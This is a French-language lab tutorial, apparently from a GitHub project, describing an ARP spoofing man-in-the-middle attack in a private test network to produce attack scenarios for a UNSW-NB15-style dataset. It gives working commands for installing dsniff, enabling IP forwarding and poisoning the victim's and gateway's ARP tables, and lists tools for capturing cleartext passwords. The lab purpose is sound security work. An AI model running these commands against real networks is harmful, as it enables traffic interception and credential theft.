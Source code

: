 ## 8 Scénarios d'attaque sur la UNSWNB15

### 8.1 Attaque MITM avec ARP Spoofing


- **Attaquant** : `192.168.30.3` (Guest1Zone3)
- **Victime** : `192.168.30.1` ou `192.168.30.2`
- **Passerelle** : `192.168.30.254` (Mikrotik3)
- **Interface** : `ens3`

---

#### 8.1.1 Installation des outils
Avant de commencer, installe les outils nécessaires sur l'attaquant.

```bash
sudo apt update && sudo apt install dsniff -y
```

**Ce package contient :**  
✔ `arpspoof` → Pour l’attaque MITM.  
✔ `dsniff` → Pour capturer les mots de passe en clair.  
✔ `tcpkill` → Pour stopper une connexion TCP.  
✔ `filesnarf` → Pour intercepter des fichiers.  

Vérifie que `arpspoof` est bien installé :
```bash
which arpspoof
```

---

#### 8.1.2 Activation du routage IP sur l’attaquant
Si on ne fait pas ça, la victime **perdra sa connexion Internet** après l’attaque.

```bash
echo 1 | sudo tee /proc/sys/net/ipv4/ip_forward
```
**Vérifie que c’est activé** :
```bash
cat /proc/sys/net/ipv4/ip_forward
```
 **Si ça renvoie `1`, c’est bon !** 

---

#### 8.1.3 Lancer l’attaque ARP Spoofing

##### 8.1.3.1 Empoisonner la table ARP de la victime (`192.168.30.1`)
```bash
sudo arpspoof -i ens3 -t 192.168.30.1 -r 192.168.30.254
```
**Effet** : La victime enverra tout son trafic vers l'attaquant.

##### 8.1.3.2 Empoisonner la table ARP de la passerelle (`192.168.30.254`)
```bash
sudo arpspoof -i ens3 -t 192.168.30.254 -r 192.168.30.1
```
 **Effet** : La passerelle enverra aussi le trafic de la victime vers l'attaquant.
